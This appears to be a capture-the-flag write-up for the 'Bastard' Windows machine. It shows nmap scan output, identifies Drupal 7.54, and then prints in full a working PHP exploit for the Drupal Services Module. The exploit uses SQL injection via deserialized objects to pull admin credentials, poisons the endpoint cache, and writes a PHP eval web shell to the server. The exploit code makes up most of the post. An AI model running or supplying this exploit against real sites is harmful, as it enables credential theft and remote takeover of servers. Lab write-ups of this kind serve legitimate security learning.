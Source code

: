 ```yaml
---
layout: post
title: Bastard
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.9
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.9

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-20 21:59 EST
<br>Nmap scan report for 10.10.10.9
<br>Host is up (0.15s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font>    open  http    Microsoft IIS httpd 7.5
<br>|_http-generator: Drupal 7 (http://drupal.org)
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>| http-robots.txt: 36 disallowed entries (15 shown)
<br>| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
<br>| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
<br>| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
<br>|_/LICENSE.txt /MAINTAINERS.txt
<br>|_http-server-header: Microsoft-IIS/7.5
<br>|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
<br><font color="BB69EC">135/tcp</font>   open  msrpc   Microsoft Windows RPC
<br><font color="BB69EC">49154/tcp</font> open  msrpc   Microsoft Windows RPC
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone|specialized
<br>Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 <br>cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 <br>cpe:/o:microsoft:windows_server_2012
<br>Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 <br>R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft <br>Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), <br>Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 <br>SP1, or Windows 7 (91%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   139.01 ms 10.10.14.1
<br>2   139.18 ms 10.10.10.9

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 86.43 seconds

<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>**Web**:- Drupal Service is running
![Drupal](https://teckk2.github.io/assets/images/Bastard/1-Bastard.JPG)
<br>and by checking /CHANGELOG.txt which we found in the nmap scan of robots.txt, we can see the version installed of drupal is 7.54
![version](https://teckk2.github.io/assets/images/Bastard/2-Bastard.JPG)
<br>For which there is a public exploit available [Drupal-Services-Module-rce](https://www.ambionics.io/blog/drupal-services-module-rce)
<br>Now download the exploit from the blog and edit the $url and $endpoint_path
![edit](https://teckk2.github.io/assets/images/Bastard/3-Bastard.JPG)
**Exploit**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat exploit.php 
<br>#!/usr/bin/php
<br><?php
<br># Drupal Services Module Remote Code Execution Exploit
<br># https://www.ambionics.io/blog/drupal-services-module-rce
<br># cf
<br>#
<br># Three stages:
<br># 1. Use the SQL Injection to get the contents of the cache for current endpoint
<br>#    along with admin credentials and hash
<br># 2. Alter the cache to allow us to write a file and do so
<br># 3. Restore the cache
<br># 

<br># Initialization

<br>error_reporting(E_ALL);

<br>define('QID', 'anything');
<br>define('TYPE_PHP', 'application/vnd.php.serialized');
<br>define('TYPE_JSON', 'application/json');
<br>define('CONTROLLER', 'user');
<br>define('ACTION', 'login');

<br>$url = 'http://10.10.10.9';
<br>$endpoint_path = '/rest';
<br>$endpoint = 'rest_endpoint';

<br>$file = [
<br>    'filename' => 'dixuSOspsOUU.php',
<br>    'data' => '<?php eval(file_get_contents(\'php://input\')); ?>'
<br>];

<br>$browser = new Browser($url . $endpoint_path);


<br># Stage 1: SQL Injection

<br>class DatabaseCondition
<br>{
<br>    protected $conditions = [
<br>        "#conjunction" => "AND"
<br>    ];
<br>    protected $arguments = [];
<br>    protected $changed = false;
<br>    protected $queryPlaceholderIdentifier = null;
<br>    public $stringVersion = null;

<br>    public function __construct($stringVersion=null)
<br>    {
<br>        $this->stringVersion = $stringVersion;

<br>        if(!isset($stringVersion))
<br>        {
<br>            $this->changed = true;
<br>            $this->stringVersion = null;
<br>        }
<br>    }
<br>}

<br>class SelectQueryExtender {
<br>    # Contains a DatabaseCondition object instead of a SelectQueryInterface
<br>    # so that $query->compile() exists and (string) $query is controlled by us.
<br>    protected $query = null;

<br>    protected $uniqueIdentifier = QID;
<br>    protected $connection;
<br>    protected $placeholder = 0;

<br>    public function __construct($sql)
<br>    {
<br>        $this->query = new DatabaseCondition($sql);
<br>    }
<br>}

<br>$cache_id = "services:$endpoint:resources";
<br>$sql_cache = "SELECT data FROM {cache} WHERE cid='$cache_id'";
<br>$password_hash = '$S$D2NH.6IZNb1vbZEV1F0S9fqIz3A0Y1xueKznB8vWrMsnV/nrTpnd';

<br># Take first user but with a custom password
<br># Store the original password hash in signature_format, and endpoint cache
<br># in signature
<br>$query = 
<br>    "0x3a) UNION SELECT ux.uid AS uid, " .
<br>    "ux.name AS name, '$password_hash' AS pass, " .
<br>    "ux.mail AS mail, ux.theme AS theme, ($sql_cache) AS signature, " .
<br>    "ux.pass AS signature_format, ux.created AS created, " .
<br>    "ux.access AS access, ux.login AS login, ux.status AS status, " .
<br>    "ux.timezone AS timezone, ux.language AS language, ux.picture " .
<br>    "AS picture, ux.init AS init, ux.data AS data FROM {users} ux " .
<br>    "WHERE ux.uid<>(0"
<br>;

<br>$query = new SelectQueryExtender($query);
<br>$data = ['username' => $query, 'password' => 'ouvreboite'];
<br>$data = serialize($data);

<br>$json = $browser->post(TYPE_PHP, $data);

<br># If this worked, the rest will as well
<br>if(!isset($json->user))
<br>{
<br>    print_r($json);
<br>    e("Failed to login with fake password");
<br>}

<br># Store session and user data

<br>$session = [
<br>    'session_name' => $json->session_name,
<br>    'session_id' => $json->sessid,
<br>    'token' => $json->token
<br>];
<br>store('session', $session);

<br>$user = $json->user;

<br># Unserialize the cached value
<br># Note: Drupal websites admins, this is your opportunity to fight back :)
<br>$cache = unserialize($user->signature);

<br># Reassign fields
<br>$user->pass = $user->signature_format;
<br>unset($user->signature);
<br>unset($user->signature_format);

<br>store('user', $user);

<br>if($cache === false)
<br>{
<br>    e("Unable to obtains endpoint's cache value");
<br>}

<br>x("Cache contains " . sizeof($cache) . " entries");

<br># Stage 2: Change endpoint's behaviour to write a shell

<br>class DrupalCacheArray
<br>{
<br>    # Cache ID
<br>    protected $cid = "services:endpoint_name:resources";
<br>    # Name of the table to fetch data from.
<br>    # Can also be used to SQL inject in DrupalDatabaseCache::getMultiple()
<br>    protected $bin = 'cache';
<br>    protected $keysToPersist = [];
<br>    protected $storage = [];

<br>    function __construct($storage, $endpoint, $controller, $action) {
<br>        $settings = [
<br>            'services' => ['resource_api_version' => '1.0']
<br>        ];
<br>        $this->cid = "services:$endpoint:resources";

<br>        # If no endpoint is given, just reset the original values
<br>        if(isset($controller))
<br>        {
<br>            $storage[$controller]['actions'][$action] = [
<br>                'help' => 'Writes data to a file',
<br>                # Callback function
<br>                'callback' => 'file_put_contents',
<br>                # This one does not accept "true" as Drupal does,
<br>                # so we just go for a tautology
<br>                'access callback' => 'is_string',
<br>                'access arguments' => ['a string'],
<br>                # Arguments given through POST
<br>                'args' => [
<br>                    0 => [
<br>                        'name' => 'filename',
<br>                        'type' => 'string',
<br>                        'description' => 'Path to the file',
<br>                        'source' => ['data' => 'filename'],
<br>                        'optional' => false,
<br>                    ],
<br>                    1 => [
<br>                        'name' => 'data',
<br>                        'type' => 'string',
<br>                        'description' => 'The data to write',
<br>                        'source' => ['data' => 'data'],
<br>                        'optional' => false,
<br>                    ],
<br>                ],
<br>                'file' => [
<br>                    'type' => 'inc',
<br>                    'module' => 'services',
<br>                    'name' => 'resources/user_resource',
<br>                ],
<br>                'endpoint' => $settings
<br>            ];
<br>            $storage[$controller]['endpoint']['actions'] += [
<br>                $action => [
<br>                    'enabled' => 1,
<br>                    'settings' => $settings
<br>                ]
<br>            ];
<br>        }
<br>
<br>        $this->storage = $storage;
<br>        $this->keysToPersist = array_fill_keys(array_keys($storage), true);
<br>    }
<br>}

<br>class ThemeRegistry Extends DrupalCacheArray {
<br>    protected $persistable;
<br>    protected $completeRegistry;
<br>}

<br>cache_poison($endpoint, $cache);

<br># Write the file
<br>$json = (array) $browser->post(TYPE_JSON, json_encode($file));


<br># Stage 3: Restore endpoint's behaviour

<br>cache_reset($endpoint, $cache);

<br>if(!(isset($json[0]) && $json[0] === strlen($file['data'])))
<br>{
<br>    e("Failed to write file.");
<br>}

<br>$file_url = $url . '/' . $file['filename'];
<br>x("File written: $file_url");


<br># HTTP Browser

<br>class Browser
<br>{
<br>    private $url;
<br>    private $controller = CONTROLLER;
<br>    private $action = ACTION;

<br>    function __construct($url)
<br>    {
<br>        $this->url = $url;
<br>    }

<br>    function post($type, $data)
<br>    {
<br>        $headers = [
<br>            "Accept: " . TYPE_JSON,
<br>            "Content-Type: $type",
<br>            "Content-Length: " . strlen($data)
<br>        ];
<br>        $url = $this->url . '/' . $this->controller . '/' . $this->action;

<br>        $s = curl_init(); 
<br>        curl_setopt($s, CURLOPT_URL, $url);
<br>        curl_setopt($s, CURLOPT_HTTPHEADER, $headers);
<br>        curl_setopt($s, CURLOPT_POST, 1);
<br>        curl_setopt($s, CURLOPT_POSTFIELDS, $data);
<br>        curl_setopt($s, CURLOPT_RETURNTRANSFER, true);
<br>        curl_setopt($s, CURLOPT_SSL_VERIFYHOST, 0);
<br>        curl_setopt($s, CURLOPT_SSL_VERIFYPEER, 0);
<br>        $output = curl_exec($s);
<br>        $error = curl_error($s);
<br>        curl_close($s);

<br>        if($error)
<br>        {
<br>            e("cURL: $error");
<br>        }

<br>        return json_decode($output);
<br>    }
<br>}

<br># Cache

<br>function cache_poison($endpoint, $cache)
<br>{
<br>    $tr = new ThemeRegistry($cache, $endpoint, CONTROLLER, ACTION);
<br>    cache_edit($tr);
<br>}

<br>function cache_reset($endpoint, $cache)
<br>{
<br>    $tr = new ThemeRegistry($cache, $endpoint, null, null);
<br>    cache_edit($tr);
<br>}

<br>function cache_edit($tr)
<br>{
<br>    global $browser;
<br>    $data = serialize([$tr]);
<br>    $json = $browser->post(TYPE_PHP, $data);
<br>}

<br># Utils

<br>function x($message)
<br>{
<br>    print("$message\n");
<br>}

<br>function e($message)
<br>{
<br>    x($message);
<br>    exit(1);
<br>}

<br>function store($name, $data)
<br>{
<br>    $filename = "$name.json";
<br>    file_put_contents($filename, json_encode($data, JSON_PRETTY_PRINT));
<br>    x("Stored $name information in $filename");
<br>}
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
